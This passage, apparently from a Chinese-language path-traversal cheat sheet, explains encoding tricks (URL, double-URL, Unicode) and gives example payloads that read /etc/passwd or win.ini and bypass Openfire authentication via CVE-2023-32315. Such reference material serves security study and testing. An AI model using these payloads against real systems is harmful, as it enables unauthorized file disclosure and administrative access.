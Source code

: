 | 字符 | 编码后 |
| --- | -------- |
| `.` | `%2e` |
| `/` | `%2f` |
| `\` | `%5c` |

**示例:** IPConfigure Orchid Core VMS 2.0.5 - 本地文件包含

```ps1
{{BaseURL}}/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd
```

### 双重URL编码

双重URL编码是对字符串应用两次URL编码的过程。在URL编码中，特殊字符被替换为%后跟其十六进制ASCII值。双重编码对已编码的字符串重复此过程。

| 字符 | 编码后 |
| --- | -------- |
| `.` | `%252e` |
| `/` | `%252f` |
| `\` | `%255c` |

**示例:** Spring MVC 目录遍历漏洞 (CVE-2018-1271)

```ps1
{{BaseURL}}/static/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
{{BaseURL}}/spring-mvc-showcase/resources/%255c%255c..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/..%255c/windows/win.ini
```

### Unicode编码

| 字符 | 编码后 |
| --- | -------- |
| `.` | `%u002e` |
| `/` | `%u2215` |
| `\` | `%u2216` |

**示例**: Openfire 管理控制台 - 认证绕过 (CVE-2023-32315)

```js
{{BaseURL}}/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

### 过长的UTF-8 Unicode编码

UTF-8标准规定，每个码点使用表示其有效位所需的最少字节数进行编码。任何使用比所需更多字节的编码都被称为"过长"，在UTF-8规范下被视为无效。此规则确保码点与其有效编码之间的一对一映射，保证每个码点都有单一、唯一的表示。
